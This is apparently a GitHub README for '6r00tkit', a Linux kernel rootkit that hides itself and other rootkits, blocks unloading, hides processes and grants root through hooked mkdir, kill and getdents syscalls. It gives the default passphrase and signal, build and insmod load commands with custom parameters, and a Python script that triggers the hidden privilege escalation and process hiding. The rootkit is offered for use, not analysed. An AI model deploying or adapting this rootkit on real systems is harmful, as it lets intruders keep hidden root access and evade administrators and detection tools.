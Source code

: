 # 6r00tkit

## Description

6r00tkit (Grootkit) is a rootkit used to hide and protect itself and other rootkits, to hide process and to set root permissions on a process (privilege escalation).

How it's works:
 - Remove itself and other rootkit from the kernel modules list
 - Use itself and other rootkit to block an unload
 - Hooks 4 syscalls
    - `mkdir`, to get the root permissions for any process you may use the passphrase in `mkdir` syscall (default passphrase is `1 4m 6r00t`)
    - `kill`, to get a hidden process you may use the special signal in `kill` syscall (default is `14600` - numbers in `1 4m 6r00t`)
    - `getdents64` to hide process (process directory in `/proc`)
    - `getdents` to hide process (process directory in `/proc`)

## Requirements

 - Linux system
 - Root permissions to load the module

## Build

```bash
wget https://github.com/mauricelambert/6r00tkit/archive/refs/heads/main.zip
unzip main.zip
cd 6r00tkit-main/
make
```

## Load

### Default parameters

```bash
sudo insmod ./rootkit.ko
```

### Add parameters

```bash
sudo insmod ./rootkit.ko modulename="other_rootkit" passphrase="s3cr3t" killcode=666
```

## Usages

You can use it like the following with python (or use it with any program and script, you only need to call specific syscalls with specific values):

```python
from os import mkdir, getuid, kill, listdir, getpid, system

print("PID:", getpid())
print("\n".join(listdir(f"/proc/{getpid()}")))
system("ps aux | grep python")
kill(getpid(), 14600) # i use the default signal, you should use your own signal if added as parameters on load
print("\n".join(listdir(f"/proc/{getpid()}")))
system("ps aux | grep python")

print("Current UID:", getuid())
system("whoiam")
mkdir("1 4m 6r00t") # i use the default passphrase, you should use your own passphrase if added as parameters on load
print("Current UID:", getuid())
system("whoiam")
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).